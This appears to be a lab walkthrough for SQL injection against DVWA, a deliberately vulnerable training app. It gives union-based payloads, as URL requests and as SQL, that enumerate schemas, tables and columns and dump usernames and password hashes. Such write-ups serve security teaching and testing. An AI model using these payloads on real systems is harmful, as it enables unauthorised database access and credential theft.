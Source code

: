### Extract database name

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,schema_name,0x7c)%20fRoM%20information_schema.schemata--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata
```

![DVWA_LOW_DB_NAME.png](SQL_Injection/Images/DVWA_LOW_COLUMNNAME.png)

### Extract tables from database

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,table_name,0x7c)%20fRoM%20information_schema.tables%20wHeRe%20table_schema=%27dvwa%27--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,table_name,0x7c) fRoM information_schema.tables wHeRe table_schema='dvwa'
```

![DVWA_LOW_TABLENAME.png](DVWA_LOW_TABLENAME.png)

### Extract column name from database

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,column_name,0x7c)%20fRoM%20information_schema.columns%20where%20table_schema=%27dvwa%27--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,column_name,0x7c) fRoM information_schema.columns where table_schema='dvwa'
```

or

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,column_name,0x7c)%20fRoM%20information_schema.columns%20where%20table_schema=database()--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,column_name,0x7c) fRoM information_schema.columns where table_schema=database()
```

![DVWA_LOW_COLUMNNAME.png](DVWA_LOW_COLUMNNAME.png)
Note: here column name can be from different table as well **comment_id** and **comment** is from **guestbook** table
So Craft payload accordingly for dumping full data

### EXTRACT data from table

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,user,0x3a,password,0x7c)%20fRoM%20users--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,user,0x3a,password,0x7c) fRoM users
```

![DVWA_LOW_DATA_DUMP.png](DVWA_LOW_DATA_DUMP.png)
